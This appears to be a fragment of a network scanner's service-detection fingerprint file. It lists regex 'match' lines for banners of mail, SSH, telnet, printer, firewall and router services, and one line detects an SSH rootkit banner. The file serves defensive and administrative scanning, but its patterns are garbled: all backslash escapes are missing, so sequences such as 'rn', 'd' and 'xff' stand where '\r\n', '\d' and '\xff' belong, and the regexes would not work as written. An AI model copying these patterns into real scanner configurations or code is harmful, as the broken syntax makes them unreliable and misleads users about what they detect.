match pop3pw m|^200 ([-.w]+ )?poppassd v(d[-.w]+) hello, who are you?rn| v|Poppassd|$2|http://echelon.pl/pubs/poppassd.html|
match pop3pw m|^200 courierpassd v(d[-.w]+) hello, who are you?rn| v/Courierpassd pop3 password change daemon///
match pop3pw m|^200 [-.+w]+ MercuryW PopPass server ready.rn| v|Mercury/32 poppass service||Win32|
match pop3pw m|^200 X1 NT-PWD Server [-.+w]+ (IMail (d[-.w]+))rn| v/IPSwitch Imail pop3 password change daemon/$1/Windows/
match pop3pw m|^200 CommuniGate Pro PWD Server (d[-.w]+) ready <| v/CommuniGate Pro pop3 password change daemon/$1//
match pop3pw m|^+OK ApplePasswordServer (d[-.w]+) password server at | v/ApplePasswordServer pop3 password change daemon/$1//
match pmud m|^pmud (d[-.w]+) d+n| v|pmud||http://sf.net/projects/apmud|
match printer m|^lpd [@[-.w]+]: Print-services are not available to your host ([-.w]+).n| v/BSD lpd//Unauthorized host/
# BSD lpr/lpd line printer spooling system (lpr v1:2000.05.07) on Linux 2.6.0-test5
match printer m|[-.w]+: lpd: Your host does not have line printer accessn| v|BSD/Linux lpd||access denied|
# Linux 2.4.18 lpr 2000.05.07-4.2
match printer m|^lpd: Host name for your address (d+.d+.d+.d+) unknownn$| v/Linux lpd//client IP must resolve/
match printer m|^([/w]+/)?lpd: (.*)n| v/lpd//error: $2/
# Windows QOTD service only has 12 services.  Found on Windows XP in
# %systemroot%system32driversetcquotes
match qotd m/^"(My spelling is Wobbly.|Man can climb to the highest summits,|In Heaven an angel is nobody in particular.|Assassination is the extreme form of censorship.|When a stupid man is doing|We have no more right to consume happiness without|We want a few mad people now.|The secret of being miserable is to have leisure to|Here's the rule for bargains:|Oh the nerves, the nerves; the mysteries of this machine called man|A wonderful fact to reflect upon,|It was as true as taxes is.)/ v/Windows qotd///
match quagga m|^rnHello, this is quagga (version (d[-.w]+)).rnCopyright 1996-200| v/Quagga routing software/$1/Derivative of GNU Zebra/
match razor2 m|^sn=w&srl=d+&ep4=[-w]+&a=w&a=w+rn$| v/Vipul's Razor2 anti-spam service///
# Remote Console via RCONJ - RCONJ is a java utility that allows one
# to remote console into a Novell server. It uses 2034 (unsecure) or
# 2036 (secure) by default but can be changed.
match rconj m|x04x01'_i?x08x0bWABOx00437| v/Novell rconj///
match resvc m|^{0000004c} NODEINFO (5) {38}Version: (d[-.w ]+) Microsoft Routing Server readyrn  | v/Microsoft Exchange routing server/$1//
# RedHat 7.3 - rsync server version 2.5.4  protocol version 26
# Redhat Linux 7.1
# rsync 2.5.5-0.1 with custom banner on Debian Woody
match rsync m|^@RSYNCD: (d+)| v///protocol version $1/
match sdmsvc m|^[xaaxff]$| v/LANDesk Software Distribution//sdmsvc.exe/
# Tumbleweed SecureTransport 4.1.1 Transaction Manager Secure Port on Solaris
match securetransport m|^x15x03x01x02x01$| v/Tumbleweed SecureTransport Transaction Manager Secure Port///
# http://www.ietf.org/internet-drafts/draft-martin-managesieve-04.txt
match sieve m|^NO Fatal error: Error initializing actionsrn$| v|Cyrus timsieved||included w/cyrus imap|
match sieve m|^"IMPLEMENTATION" "Cyrus timsieved v(d[-.w]+)"rn| v|Cyrus timsieved||included w/cyrus imap|
match sftp m|^+Shiva SFTP Service$| v/Shiva LanRover SFTP service///
# HP-UX B.11.00 A 9000/785
match shell m|^x01remshd: getservbynamen$| v/HP-UX Remshd///
match smtp m|^220 [-/.+w]+ SMTP AnalogX Proxy (d[-.w]+) (Release) readyrn| v/AnalogX SMTP proxy/$1//
match smtp m|^220 [-/.+w]+ MailGate ready for ESMTP on | v/MailGate smtpd//Windows/
match smtp m|^220 [-/.+w]+ SMTP ready to rollrn| v/Hotmail Popper hotmail to smtp gateway///
match smtp m|^220 [-/.+w]+ AvMailGate-(d[-.w]+)rn| v/AvMailGate smtp anti-virus mail gateway/$1//
match smtp m|^220 ([-/.+w]+) Internet Rex ESMTP daemon at your service.rn| v/Internet Rex smtpd///
match smtp m|^220 [-.+w]+ ESMTP NetIQ MailMarshal (v(d[-.w]+)) Readyrn| v/MailMarshal/$1//
# I think the revision number is different than the official product version number
# Dots in Revision to prevent MY CVS from screwing it up
match smtp m|^220 [-.+w]+ Novonyx SMTP ready $Re..sion: ([d.]+) $rn| v|Novonyx Novell NetMail smtpd||Revision $1|
match smtp m|^554-[-.+w]+.usrn554 Access deniedrn$| v/IronPort appliance mail rejector///
match smtp m|^220 eSafe@[-.+w]+ Service readyrn| v/eSafe anti-virus mail gatewal///
match smtp m|^220 [-.+w]+ ESMTP Merak (d[-.w]+);| v/Merak Mail Server smtpd/$1/Windows/
match smtp m|^220 MERCUR SMTP-Server (v([^)]+)) for ([-.w ]+) ready at | v/LAN-ACES MERCUR smtp server/$1/$2/
match smtp m|^220 [-.+w]+ MasqMail (d[-.w]+) ESMTPrn| v/MasqMail smtpd/$1//
# Cisco NetWorks ESMTP server IOS (tm) 5300 Software (C5300-IS-M) on Cisco 5300 Access Server
match smtp m|^220 [-.+w]+ Cisco NetWorks ESMTP serverrn| v/Cisco IOS NetWorks smtp server///
match smtp m|^220 [-.+w]+ Mercury/32 v(d[-.w]+) ESMTP server ready.rn| v|Mercury/32 smtpd|$1|Win32|
# Canon ImageRunner SMTP server (network scanner/copier/printer)
match smtp m|^220 Canon[-.w]+ ESMTP Readyrn| v/Canon printer smtp server///
# Exim 3.36 on Linux 2.4 blocking the given IP
match smtp m|^554 SMTP service not availablern$| v/Exim smtpd//Serviced refused (IP block)/
# Jana Server 1.45 on Win98
match smtp m|^220 Jana-Server Simple Mail Transfer Service readyrn| v/Jana mail server//Windows/
match smtp m|^220 <10d+.d+@[-.w]+> [XMail (d[-.w]+) (([-./w]+)) ESMTP Server] service ready; | v/XMail SMTP server/$1/on $2/
match smtp m|^220 [-.w]+ FirstClass ESMTP Mail Server v(d[-.w]+) readyrn| v/FirstClass SMTP server/$1//
match smtp m|^220 [-.w]+ AppleMailServer (d[-.w]+) SMTP Server Readyrn| v/AppleMailServer/$1//
match smtp m|^220 [-.w]+ ESMTP CommuniGate Pro (d[-.w]+)rn| v/Communigate Pro SMTP/$1//
match smtp m|^220[- ][-.w]+  MailSite ESMTP Receiver Version (d[-.w]+) Readyrn| v/Rockliffe MailSite/$1//
match smtp m|^220 [-.w]+ eXtremail V(d[-.w]+) release (d+) ESMTP server ready ...rn| v/eXtremail smtpd/$1.$2//
match smtp m|^220 Welcome to [-.w]+ - VisNetic MailScan ESMTP Server BUILD (d[-.w]+)rn| v/VisNetic MailScan ESMTP server/$1//
# HP Service Desk 4.5 SMTP Server
match smtp m|^220 [-.w]+ service desk (d[-.w]+) SMTP Service Ready for input.rn| v/HP Service Desk SMTP server/$1//
# VPOP3 SMTP server 2.0.0d
match smtp m|^220 [-.w]+ VPOP3 SMTP Server Readyrn| v/PSCS VPOP3 mail server///
# CommuniGate Pro 4.1.3 on Mac OS X 10.2.6
match smtp m|^220 [-.w]+ ESMTP CommuniGate Pro (d[-.w]+) is glad to see you!rn| v/CommuniGate Pro mail server/$1//
match smtp m|^220[ -][-.w]+ ESMTP MDaemon (d[-.w]+); | v/Alt-N MDaemon mail server/$1//
match smtp m/^220 [-.+w]+ (IMail ([^)]+)) NT-ESMTP Server/ v/IMail NT-ESMTP/$1//
match smtp m/^220 X1 NT-ESMTP Server [-.+w]+ (IMail ([^)]+))rn/ v/IMail NT-ESMTP/$1//
match smtp m/^220-[-.+w]+ Microsoft SMTP MAIL ready at.*Version: ([-w.]+)rn/ v/Microsoft SMTP/$1//
match smtp m/^220 [-.+w]+ Microsoft ESMTP MAIL Service, Version: ([-w.]+) ready/ v/Microsoft ESMTP/$1//
match smtp m/^220 [-.+w]+ ESMTP Server (Microsoft Exchange Internet Mail Service ([-w.]+)) ready/ v/Microsoft Exchange/$1//
match smtp m/^220 [-.+w]+ ESMTP Sendmail (d[^;]+);/ v/Sendmail/$1//
match smtp m|^220 [-.+w]+ SMTP Sendmail ([-/.+w]+)rn| v/Sendmail/$1//
match smtp m|^220 [-.+w]+ Sendmail (SMI-S+) ready at .*rn$| v/Sendmail/$1//
match smtp m/^220[- ][-.+w]+ ESMTP Exim (dS+)/ v/Exim smtpd/$1//
match smtp m/Failed to open configuration file.*exim/ v/Exim smtpd///
match smtp m/^220 CheckPoint FireWall-1 secure ESMTP serverrn$/ v/Checkpoint FireWall-1 smtpd///
match smtp m/^220 CheckPoint FireWall-1 secure SMTP serverrn$/ v/Checkpoint FireWall-1 smtpd///
match smtp m|^220 [-.+w]+ running IBM AS/400 SMTP V([w]+)| v|IBM AS/400 smtpd|$1||
match smtp m/^220 Trend Micro ESMTP ([-.+w]+) ready.rn$/ v/Trend Micro ESMTP/$1//
match smtp m|^220 [-.+w]+ ESMTP MailEnable Service, Version: (d[.w]+)-- ready at | v/MailEnable smptd/$1//
match smtp m/^220 [-.+w]+ ESMTP Mail Enable SMTP Service, Version: (d[w.]+)-- ready at/ v/MailEnable smptd/$1//
match smtp m/^220 [-.+w]+ ESMTP CPMTA-([-.+w]+) - NO UCErn/ v/CPMTA/$1/qmail-derived/
match smtp m|^220 [-.+w]+ SMTP/smap Ready.rn| v/Smap//from firewall toolkit/
match smtp m|^220 [-.+w]+ ESMTP service (Netscape Messaging Server ([-.+ w]+) (built| v/Netscape Messaging Server/$1//
match smtp m|^220-InterScan Version (S+) .*Readyrn220 [-.+w]+ NTMail (v([-.+w]+)/.* ready| v/Trend Micro InterScan/$1/on NTMail $2/
match smtp m|^220 [-.w]+ InterScan VirusWall NT ESMTP (d[-.w]+) (build (d+)) ready at | v/Trend Micro InterScan VirusWall SMTP/$1 build $2//
match smtp m|^220 [-.+w]+ GroupWise Internet Agent (S+) .*Novell, Inc..*Readyrn| v/Novell GroupWise/$1//
match smtp m|^220 Matrix SMTP Mail Server v([w.]+) on <MATRIX_([w]+)> Simple Mail Transfer Service Readyrn| v/Matrix SMTP Mail Server/$1/on Matrix $2/
match smtp m|^220 Net_sec WebShield SMTP V(S+) Network Associates, Inc. Ready at| v/Network Associates WebShield/$1//
match smtp m|^220 [-.+w]+ ESMTP MailMasher ready to boogiern| v/MailMasher smtpd///
# 220 example.com ESMTP Postfix (2.0.13) (Mandrake Linux)
match smtp m|^220 [-.w]+ ESMTP Postfix (([-.w]+)) (([-.w ]+))| v/Postfix smtpd/$1/$2/
# postfix 1.1.11-0.woody2
match smtp m|^220 [-.w]+ ESMTP Postfix| v/Postfix smtpd///
match smtp m|^220 *{10,40}rn| v|Cisco PIX sanatized smtpd|||
match smtp m|^220 ArGoSoft Mail Server Pro for WinNT/2000/XP, Version [-.w]+ (([-.w]+))rn| v/ArGoSoft Mail Server Pro/$1//
match smtp m|^220 [-.w]+ ESMTP server (Post.Office v([-.w]+) release ([-.w]+) ID# | v/Post.Office/$1 release $2//
match smtp m|^220 [-.w]+ ESMTP VisNetic.MailServer.v([-.w]+); | v/VisNetic MailServer/$1//
# CommuniGate Pro 4.0.5
match smtp m|^220 [-.w]+ ESMTP Service. Welcome.rn$| v/CommuniGate Pro smtpd///
match smtp m|^220 [-.w]+ Process Software ESMTP service V([-.w]+) ready| v/Process Software smtpd/$1/on OpenVMS/
match smtp m|^220 [-.w]+ Mercury (d[-.w]+) ESMTP server ready.rn$| v/Mercury Mail smtpd/$1//
match smtp m|^220 [-.w]+ ESMTP Service (Lotus Domino Release (d[-.w]+)) ready at | v/Lotus Domino smtpd/$1//
match smtp m|^relaylock: Error: PRODUCT_ROOT_D not definednrelaylock: Error: PRODUCT_ROOT_D not definedn1n$| v/Plesk relaylock smtp wrapper//broken/
match smtp m|^220 [-.w]+ WebSTAR Mail Simple Mail Transfer Service Readyrn| v/WebSTAR SMTP server///
match smtp m|^220 [-.w]+ Lotus SMTP MTA Service Readyrn$| v/Lotus Notes SMTP///
match smtp m|^220 [-.w]+ SMTP NAVGW (d[-.w]+);| v/Norton Antivirus Gateway NAVGW/$1//
match smtp m|^220 ([-.w]+) Kerio MailServer (d[-.w]+) ESMTP readyrn$| v/Kerio MailServer/$1/$2/
softmatch smtp m|^220 [-.w ]+SMTP.*rn|
match snpp m|^220 [-.w]+ SNPP server (HylaFAX (tm) Version ([-.w]+)) ready.rn| v/HylaFAX SNPP/$1//
match snpp m|^220 QuickPage v(d[-.w]+) SNPP server ready at | v/QuickPage SNPP/$1//
match sourceoffice m|^200rnProtocol-Version:(d[.d]+)rnMessage-ID:d+rnDatabase .*rnContent-Length:d+rnrn(w:\.*ini)rnrn| v/Sourcegear SourceOffSite//Protocol $1; INI file: $2/
match ssh m|^$x01x1bNo host key is configured!nr!"v| v/Foundry Networks switch sshd//broken: No host key configured/
match ssh m|^SSH-(d[d.]+)-SSF-(d[-.w]+)n| v/SSF French SSH/$2/protocol $1/
match ssh m|^SSH-(d[d.]+)-lshd_(d[-.w]+) lsh - a free sshrn| v/lshd secure shell/$2/protocol $1/
match ssh m/^SSH-([.d]+)-OpenSSH[_-]([S ]+)/ v/OpenSSH/$2/protocol $1/
match ssh m/^SSH-([.d]+)-Sun_SSH_(S+)/ v/SunSSH/$2/protocol $1/
match ssh m/^SSH-([.d]+)-meow roototkt by rebel/ v/meow SSH ROOTKIT//protocol $1/
match ssh m/^SSH-([.d]+)-(d+.d+.d+) SSH Secure Shell/ v/F-Secure SSH Secure Shell/$2/protocol $1/
match ssh m|^sshd: SSH Secure Shell (d[-.w]+) on ([-.w]+)nSSH-(d[.d]+)-| v/F-Secure SSH Secure Shell/$1/on $2; protocol $3/
match ssh m|^sshd: SSH Secure Shell (d[-.w]+) (([^rn)]+)) on ([-.w]+)nSSH-(d[.d]+)-| v/F-Secure SSH Secure Shell/$1/$2; on $3; protocol $4/
match ssh m|^sshd2[d+]: .*rnSSH-(d[d.]+)-(d[-.w]+) SSH Secure Shell (([^rn)]+))rn| v/F-Secure SSH Secure Shell/$2/protocol $1/
match ssh m/^SSH-([.d]+)-(d+.d+.[-.w]+)/ v/SSH/$2/protocol $1/
# Akamai hosted systems tend to run this - found on www.microsoft.com
match ssh m|^SSH-(d[.d]*)-AKAMAI-In$| v/Akamai-I SSH//protocol $1/
match ssh m|^SSH-(d[.d]*)-Server-Vn$| v/Akamai-I SSH//protocol $1/
match ssh m|^SSH-(d[.d]*)-Server-VIn$| v/Akamai-I SSH//protocol $1/
match ssh m|^SSH-(d[.d]+)-Cisco-(d[.d]+)n$| v/Cisco SSH/$2/protocol $1/
match ssh m|^SSH-(d[.d]+)-SSH Protocol Compatible Server SCS (d[-.w]+)n| v/NetScreen SCS sshd/$2/protocol $1/
match ssh m|^SSH-(d[.d]+)-VShell_(d[._d]+) VShellrn$| v/VanDyke VShell/$SUBST(2,"_",".")/protocol $1/
match ssh m/^SSH-([.d]+)-(d[-.w]+) sshlib: WinSSHD (d[-.w]+)rn/ v/Bitvise WinSSHD/$3/protocol $1/
# Cisco VPN 3000 Concentrator
# Cisco VPN Concentrator 3005 - Cisco Systems, Inc./VPN 3000 Concentrator Version 4.0.1.B Jun 20 2003
match ssh m/^SSH-([.d]+)-OpenSSHn$/ v/OpenSSH//protocol $1/
match ssh m/^SSH-([.d]+)-([.d]+) Radwaren$/ v/Radware Linkproof SSH/$2/protocol $1/
match ssh m|^SSH-1.5-Xn| v/Cisco VPN Concentrator SSHd//protocol 1.5/
softmatch ssh m/^SSH-([.d]+)-/
# Redhat Linux 7.1 - HAHAHAHAHAHA!!!! I love this service :) 
match systat m|^USER       PID %CPU %MEM   VSZ  RSS TTY      STAT START   TIME COMMANDn| v/Linux systat///
# Draytek Vigor 2600 aDSL router
match telnet m|^xffxfdx18xffxfbx01nrnrPassword: | v/Draytek Vigor aDSL router telnetd///
# IBM Infoprint 12 printer with JetDirect
match telnet m|^xffxfcx01rnPlease type [Return] two times, to initialize telnet configurationrnFor HELP type "?"rn> | v/HP JetDirect printer telnetd///
# IBM High Performace Switch - Model 8275-416, Software version 1.1, Manufacturer IBM068
match telnet m|^x1b[1;1Hx1b[2Jx1b[8;38Hx1b[1;1Hx1b[2;1H(C) Copyright IBM Corp. 1999x1b[3;1HAll Rights Reserved.| v/IBM switch telnetd///
match telnet m|^x1b[Hx1b[2JYou have connected to a FirstClass System. Please login...rnUserID: | v/FirstClass messaging system telnetd///
# Cisco Catalyst management console
# 3Com 3Com SuperStack II Switch 3300
match telnet m|^xffxfdx03xffxfbx03xffxfbx01| v|||Usually a Cisco/3com switch|
match telnet m|^xffxfbx03xffxfbx01rnSun(tm) Advanced Lights Out Manager (d[-.w]+) (v(d+))rnrnPlease login: | v/Sun Advanced Lights Out Manager/$1/on Sun v$2; for remote system control/
# Epson Stylus Color 900N telnet
match telnet m|^xffxfbx01xffxfbx01Connected to [-/.+w]+!rnrnPassword: | v/Epson printer telnetd///
# This one may not technically be considered telnet protocol, but you seem to use it via telnet
match telnet m|^220 SL4NT viewer service readyrn250 Currently connected channels: | v/Netal SLANT viewer///
match telnet m|^xffxfbx03xffxfbxffxfbxffxfdxff.*rrFrontDoor (d[-.w]+)/|s v/FrontDoor FIDONet Mailer telnetd/$1//
match telnet m|^xffxfbx01xffxfbx03rnOKrn$| v/Motorola Vanguard router telnetd///
match telnet m|^xffxfbx03xffxfdx03xffxfcx06.*nPrecidia Technologiesrn([-.+w]+) Remote ConfigurationrnnPassword? |s v/Precidia serial2ethernet gateway telnetd//model $1/
match telnet m|^xffxfbx01.*nrWelcome to the Xylan PizzaSwitch! Version (d[-.w]+)nrlogin   : |s v/Xylan PizzaSwitch telnetd/$1//
# Bay Networks Accelar 1100 (version 2.0.5.5) switch
match telnet m|^xffxfbx01rnr********************************nrr* Bay Networks,Inc..*(Accelar [-.+w]+).*Software Release (d[-.w]+) |s v/Bay Networks Accelar switch telnetd/$2/$1/
match telnet m|^xffxfbx01rnr********************************nrr* Nortel Networks,Inc..*nrr* Passport ([-.w]+) .*r* Software Release (d[-.w]+) |s v/Nortel Networks Passport switch telnetd/$2/Passport $1/
# NCD Thinstar 300 running NCD Software 2.31 build 6
match telnet m|^xffxfbx03xffxfdx03xffxfbx01WinCE/WBT Command Shell Version (d[-.w]+)rnSerial Number: (w+)  MAC Address: 0000(w+)rnUUID: [-w]+rnPassword: | v/NCD Thinster terminal command shell/$1/Serial# $2; MAC $3/
# Netopia 4542 aDSL router telnetd
match telnet m|^xffxfbx01xffxfdx03xffxfbx03x1b[2Jx1b[Hname:| v/Netopia aDSL router telnetd///
# NetportExpress PRO/100 3 port print server
match telnet m|^xffxfbx01rnNetportExpress(tm) ([-/.+w]+)rn.*rnrnlogin: | v/Intel NetportExpress print server telnetd//Model $1/
# 3Com OfficeConnect 812 Router telnetd
match telnet m|^login: xffxfdx03xffxfbx03xffxfbx01| v/3Com OfficeConnect router telnetd///
# Nortel Networks Instant Internet 100
match telnet m|^xffxfbx01rnpassword: | v/Nortel Networks Instant Internet broadband router telnetd///
# Network Appliance ONTAP 6.3.3 telnet
match telnet m|^xffxfbx01xffxfdx18xffxfd#| v/Network Appliance Ontap telnetd///
# Netgear RP114 broadband router
match telnet m|^xffxfbx03xffxfbx01rnPassword: | v/Netgear broadband router admin telnetd///
match telnet m|xffxfdx18xffxfbx01x1b[2Jx1b[?7lx1b.*HP ([-.w]+) ProCurve Switch ([-.w]+)rnrFirmware revision ([-.w]+)rnrr| v/HP ProCurve Switch telnetd//Model: $2; Firmware: $3/
match telnet m|^Check Point FireWall-1 Client Authentication Server running on [-.w]+rnrxffxfbx01xffxfex01xffxfbx03User: | v/Check Point FireWall-1 Client Authenticaton Server///
# Enterasys XP-8600 running E9.0.5.0
match telnet m|^xffxfbx03xffxfdx01xffxfdx1fxffxfbx05xffxfd!| v/Enterasys XSR Security Router telnetd///
# Windows 2000 telnetd
match telnet m|^xffxfd%xffxfbx01xffxfdx03xffxfdx1fxffxfdxffxfb$| v/Microsoft Windows 2000 telnetd///
match telnet m|^xffxfbx01xffxfdx03xffxfdx1fxffxfdxffxfbMicrosoft (R) Windows (TM) Version (d[-.w]+) (Build (d+))rnWelcome to Microsoft Telnet Service rnTelnet Server Build (d[-.w]+)nrlogin: | v/Microsoft Windows telnetd/$3/OS version $1 build $2/
# Windows XP telnetd
match telnet m|^xffxfd%xffxfbx01xffxfbx03xffxfd'xffxfdx1fxffxfdxffxfb| v/Microsoft Windows XP telnetd///
# IRIX 6.5.18f telnetd
match telnet m|^xffxfdx18xffxfd xffxfd#xffxfd$| v/IRIX telnetd/6.X//
# OS 400 V4R4M0
# OS/400 V5R1M0
match telnet m|^xffxfd'xffxfdx18$| v/IBM OS 400 telnetd///
# JetDirect Model: J4169A Firmware: L.21.11
match telnet m|^xffxfbx03xffxfbx01x07HP JetDirectrnPassword is not setrn| v/HP JetDirect printer telnetd//No password/
# HP Jetdirect telnet with password protection
match telnet m|^xffxfbx03xffxfbx01x07HP JetDirectrnrnEnter username: | v/HP JetDirect printer telnetd///
# HP MPE/iX 5.5 on HP 3000 telnet service
match telnet m|^xffxfdx03xffxfbx01xffxfd!| v|HP MPE/iX telnetd|||
# Brother 1870N Printer
match telnet m|^x1b[2Jx1b[1;1fxffxfbx01xffxfbx03xffxfdx03| v/Brother printer telnetd///
# AIX 4.3.3.0
match telnet m|^xffxfe%xffxfdx18$| v/AIX telnetd///
match telnet m|^rnEfficient ([-.w ]+) Router (([-.d/]+)) v(d[-.w]+) Readyrnxffxfbx01xffxfbx03xffxfdx01xffxfex01Login: | v/Efficient router telnetd/$3/Model $1 - $2/
# http://mldonkey.berlios.de/
# mldonkey-2.5-3 telnet port
match telnet m|^xffxfdx1fnn***************************************************************************nn                         Welcome to MLdonkey          n| v/MLdonkey multi-network P2P admin port///
match telnet m|^rnRaptor Firewall Secure Gateway.rn| v/Symantec Raptor firewall secure gateway telnetd///
match telnet m|^rnSynchronet BBS for Win32  Version (d[-.w]+)rn| v/Synchronet BBS/$1/on Win32/
match telnet m|^xffxfbx01xffxfbx03rnlogin: $| v/Orinoco WAP telnetd///
match telnet m|^xffxfdx03xffxfbx01xffxfbx03x1b[1;1Hx1b[2Kx1b[2;1Hx1b[2Kx1b[3;1Hx1b.*Nortel Networks.*BayStack ([-.w]+).*Versions: ([.: w]+)|s v/Nortel Networks telnetd//Baystack $1; Versions: $2/
match telnet m|^xffxfbx01nrn.*Bay Networks (Bay[-.: w]+)nr|s v/Bay Networks telnetd//$1/
match telnet m/^Check Point FireWall-1 authenticated Telnet server running on/ v/Check Point Firewall-1 telnetd///
match telnet m/^rnSpeedStream ([^(rn]+) (.*) v(S+) Readyrnxffxfbx01xffxfbx03xffxfd/ v/SpeedStream $1/$2//
# SpeedTouch 510 ADSL router - Admin Interface, version 4.0.2.0.0
match telnet m|^xffxfbx01xffxfbx03xffxfbx01xffxfbx03Username : | v/SpeedTouch DSL router admin interface///
match telnet m/^rnRaptor Firewall Secure Gateway.rnrnAccess denied.rn/ v/Symantec Raptor Firewall Secure Gateway telnetd//Access Denied/
match telnet m/^******* System Image Boot *******nrnrVina Technologies (.*) ((d[-.w]+ build d+))nr/ v/Vina Technologies $1 telnetd/$2//
match telnet m/^xffxfbx01xffxfdx03xffxfbx03x1b[0mx1b[2Jx1b[01;00HrGigalink ([-+ w]+)/ v/Gigalink telnetd//on $1/
match telnet m/^xffxfbx03xffxfb.*D-Link.*Telnet Console.*Models+: ([-+w]+)/s v/D-Link telnetd//on $1/
match telnet m|^xffxfbx01x1b[0mx1b[2Jx1b[0mx1b[9;20HCopyright(C) 1995-99 D-Link Systems Inc.x1b[13;30HUser Namex1b[14;30HPasswordx1b[23;10HMAC Address:x1b[8;29H([-.w]+) Console Programx1b[13;41H| v/D-Link switch admin interface//D-Link $1/
match telnet m/^xffxfax18x01xffxf0xffxfbx01xffxfbx03Ambit Cable RouterrnrnLogin: / v/Ambit Cable Router telnetd///
match telnet m|^xffxfcx01rnHP JetDirectrnrnPlease type "?" for HELP, or "/" for current settingsrn> $| v/HP JetDirect telnetd///
match telnet m/^nrVina Technologies (.*) ((d[-.w]+ build d+))/ v/Vina Technologies $1 telnetd/$2//
match telnet m/^xffxfdx03xffxfbx03xffxfbx01x1b[0mx1b[1;1Hx1b[2JrDr           nr             (DES-.*) Command Line Interfacenrn/ v/D-Link $1 telnetd///
match telnet m/^xffxfbx01xffxfbx03xffxfcx1fnrnrUser Access VerificationnrnrnrnrnrShell version (dS+).*Maipu Communication Technology Co./ v/Maipu Router//shell v$1/
match telnet m/^xffxfbx01xffxfbx03xffxfdx03x1b.*Intel Corporation, ([-+. w()]+)/s v/Intel telnetd//on $1/
match telnet m|^rnFlowPoint/(.*) Readyrn.*xffxfbx01xffxfb| v/Flowpoint telnet//on $1/
match telnet m/Welcome to Tenor Multipath Switch Telnet Server.*Type: (S+)/s v/Tenor telnetd/$1/on Multipath Switch/
match telnet m|^xffxfbx01xffxfbx03xffxfdx01x0dx0ax0dx0aCiscox20Systems.*Console/Telnet Access of the ([-. w]+) for Configuration Purposes|s v/Cisco $1 telnetd///
# Cisco 350 Series Wireless AP 11.05
match telnet m|^xffxfbx01nrx08x08x08x08x08x08x08x08x08x08x08x08x08x08x08x08x08x08x08x08x08x08x08x08x08x08x08                           x08x08x08x08x08x08x08x08x08x08x08x08x08x08x08| v/Cisco WAP telnetd///
# Cisco 678 DSL router
match telnet m|^rnrnUser Access VerificationrnPassword:xffxfbx01$| v/Cisco DSL router telnetd///
#  Cisco 2900 Catalyst switch, IOS 12.0(5)XU
# Cisco 3600 router running IOS 12.X
# Cisco 2600 IOS 12.0
match telnet m/^xffxfbx01xffxfbx03xffxfdx18xffxfdx1f.*User Access Verificationrnrn(Username|Password): $/s v/Cisco telnetd//IOS 12.X/
# Cisco Pix 501 PIX IOS 6.3(1) telnet
match telnet m/^xffxfbx03xffxfbx01xffxfbx03xffxfbx01.*rnUser Access VerificationrnrnPassword: /s v/Cisco telnetd//IOS 6.X/
# Cisco Catalyst 6509 - WS-C6509 Software, Version NmpSW: 5.5(1)
match telnet m|^xffxfbx01xffxfbx03xffxfdx01rnrnCisco Systems ConsolernrnrnrnrnEnter password: | v/Cisco Catalyst switch telnetd///
match telnet m|^xffxfbx01xffxfbx03xffxfdx18xffxfdx1frnrnPassword required, but none setrn| v/Cisco router telnetd//password required but not set/
match telnet m|^Access not permitted. Closing connection...n$|s v/Cisco catalyst switch telnetd//access denied/
match telnet m|^xffxfdx18$| v/Cisco microswitch telnetd///
# OpenBSD 2.3
# FreeBSD 5.1
match telnet m|^xffxfd%$| v/BSD-derived telnetd///
# Solaris 9
match telnet m|^xffxfdx18xffxfdx1fxffxfd#xffxfd'xffxfd$$| v/Sun Solaris telnetd///
# Redhat Linux 7.3 telnet
match telnet m|xffxfdx18xffxfd xffxfd#xffxfd'$| v/Linux telnetd///
match telnet m|^xffxfbx01nrUser Name : $| v/APC network management card telnetd///
match telnet m|^xffxfbx01xffxfbx03xffxfdx03nrUser Name : | v|APC telnetd||Power/UPS device|
# G-Net BB0060 ADSL Modem
match telnet m|^xffxfbx01xffxfdx03xffxfbx03nr                         *******************nr.*GlobespanVirata Inc., Software Release ([-.w]+)nr|s v/GlobespanVirata telnetd/$1/on broadbrand router/
# HP-UX B.11.00 A
match telnet m|^xffxfd$$| v/HP-UX telnetd///
# Cayman-DSL Model 3220-H, DMT-ADSL (Alcatel) OS version 6.3.0
match telnet m|^xffxfbx01xffxfbx03xffxfex01nrlogin: $| v/Cayman-DSL router telnetd///
# Blue Coat Port 80 Security Appliance  Model: Blue Coat SG400  Software Version: SGOS 2.1.6044 Software Release id: 19480 Service Pack 4
# Maybe I should call this SGOS telnetd instead
match telnet m|^xffxfbx03xffxfbx01xffxfdx1frnrnUsername: $| v/Blue Coat telnetd///
match telnet m|^xffxfbx01@ Userid: | v/Shiva LanRover telnetd///
# Netscreen ScreenOS 4.0.1r1.0 telnetd on a netscreen 5XT running firmware 4.0.1r1.0
match telnet m|^xffxfdx18xffxfbx01xffxfex01Remote Management Consolernrnlogin: $| v/Netscreen ScreenOS telnetd///
# Note that openwall telnetd is derived from OpenBSD telnetd
match telnet m|^xffxfdx18xffxfd xffxfd#xffxfd'xffxfd$$| v|Openwall GNU/*/Linux telnetd|||
match telnet m|^xffxfcx01rnHP JetDirectrnrnPlease type "?" for HELP, or "/" for current settingsrn> $| v/HP Jet Direct printer telnetd///
# tinc 1.0.2-2 on Linux
match tinc m|^0 w+ 17n| v/tinc vpn daemon///
match time m|^[xc0-xc5]...$|
# Tiny Personal Firewall 2.0
match tinyfw m|^x0fnx01x02xc0x0ef7xbbx9bSxfcx86xe4x7fx18xb8x97x06 | v/Tiny Personal Firewall/2.0//
# Kerio Personal Firewall 4.02 on Windows 2000, 4.0.11 on W2K SP4+ too (port 44xxx)
match keriopfservice m|^x12x03x04x02| v/Kerio PF 4 Service//maybe 4.0.2-11/
# Kerio PF 4.0.11 unregistered - GUI process (Port 1027-1200,44xxx? RPC?) on MS W2K SP4+
match keriopfgui m|^x12rx03x02x9ax20xd0Zx1ex1bxa3*xf2xddxe2(xc3sp&xdaxe4YpxdbETxf9x8ccxc24*Yxbexb3xbaxd6%xf5xb668xadxab>@D<x01<ix80O>xdd>)xdbx18xf55xd1xbax96x1cx17x17x01x01| v/Kerio PF 4 GUI//maybe 4.0.11/
# Kerio Personal Firewall 2.1.4 on Windows
# Tiny Personal Firewall 2.0
# Kerio Personal Firewall, Firewall engine version 2.1.5 Driver version 3.0.0 on WinXP
match tinyfw m|^x0fnx01x02|  v/Kerio Personal Firewall/2.1.X/or Tiny Personal Firewall/
match ssl/vmware-auth m|^220 VMware Authentication Daemon Version (d[-.w]+): SSL Requiredrn| v/VMware Authentication Daemon/$1//
match vnc m|^RFB 003.00(d)n$| v/VNC//protocol 3.$1/
